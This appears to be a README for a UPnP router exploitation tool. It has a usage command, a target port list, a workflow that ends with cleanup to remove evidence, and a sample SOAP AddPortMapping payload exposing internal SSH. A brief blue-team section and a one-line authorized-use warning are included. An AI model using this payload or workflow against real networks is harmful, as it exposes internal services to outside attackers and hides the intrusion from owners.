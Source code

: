 # UPnP Portmapper Exploit Tool 🔥

**A stealthy UPnP router exploitation tool for bypassing NAT/firewalls**

## 📌 Core Functionality
- **Automated UPnP exploitation** via SOAP requests
- **Multi-threaded** port scanning (8 threads)
- **Proxy-aware** (127.0.0.1:8080)
- **Self-cleaning** (removes port mappings post-scan)

## 🎯 Target Ports
```python
['21', '22', '23', '80', '443', '8080', '139', '445', '135', '3389', '110', '25', '49152']

⚡ Attack Vectors
Technique	SOAP Action	Risk
Port Forwarding	AddPortMapping	🔴 High
Firewall Bypass	NAT traversal via UPnP	🔥 Critical
Service Exposure	Internal → External port mapping	🎯 Medium

🛠️ Usage
bash
Copy

python3 upnp_exploit.py <router_ip> <network_prefix>
# Example:
python3 upnp_exploit.py 192.168.1.1 192.168.1

💀 Exploit Workflow

    Recon

        Identifies UPnP service on port 49152

    Weaponize

        Injects port mapping rules via SOAP

    Verify

        Checks if ports are externally accessible

    Cleanup

        Removes evidence via DeletePortMapping

🔥 Red Team Benefits

    Internal network pivoting

    RDP/SSH/SMB exposure

    Low detection rate (legitimate UPnP traffic)

🛡️ Blue Team Countermeasures
bash
Copy

# Disable UPnP on routers:
iptables -A INPUT -p tcp --dport 1900 -j DROP
iptables -A INPUT -p udp --dport 1900 -j DROP

📜 Sample SOAP Payload
xml
Copy

<s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/">
  <s:Body>
    <u:AddPortMapping xmlns:u="urn:schemas-upnp-org:service:WANIPConnection:1">
      <NewRemoteHost>{target}</NewRemoteHost>
      <NewExternalPort>1337</NewExternalPort>
      <NewProtocol>TCP</NewProtocol>
      <NewInternalPort>22</NewInternalPort>
      <NewInternalClient>192.168.1.100</NewInternalClient>
    </u:AddPortMapping>
  </s:Body>
</s:Envelope>

Run HTML

    ⚠️ Warning: Use only on authorized systems. UPnP exploitation may violate security policies.
